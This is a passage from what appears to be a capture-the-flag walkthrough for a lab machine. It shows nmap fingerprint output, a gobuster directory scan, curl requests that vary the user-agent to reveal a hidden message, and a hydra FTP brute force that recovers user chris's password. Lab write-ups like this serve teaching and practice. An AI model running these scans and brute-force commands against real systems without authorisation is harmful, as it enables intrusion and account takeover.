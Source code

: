   ```
  OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T
  OS:6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+
  OS:%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK
  OS:=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
  ```

  ```
  gobuster dir -u http://10.10.133.46/ -w /usr/share/wordlists/dirb/common.txt

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.htaccess            (Status: 403) [Size: 277]
  /.hta                 (Status: 403) [Size: 277]
  /.htpasswd            (Status: 403) [Size: 277]
  /index.php            (Status: 200) [Size: 218]
  /server-status        (Status: 403) [Size: 277]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- Since I saw codename on web app and question about getting to secret page I started using `curl` for some checkups. First I did `-A "A"` then `-A "B"` and so on. On third attempt I got a different message.

  ```
  curl -A "C" -L http://10.10.133.46/ 

  Attention chris, <br><br>
  
  Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>
  
  From,<br>
  Agent R 
  ```
  
- So first steps are done, I also tried `curl -A "J" -L http://10.10.133.46/` since it was mentioned in previouse response but I got nothing new.

---

## 🌐 Brute Forcing and Steganography

- Since I already have valid username `chris` getting his FTP password was easy.

  ```
  hydra -l chris -P /rockyou.txt ftp://10.10.133.46

  [21][ftp] host: 10.10.133.46   login: chris   password: crystal
  ```
  
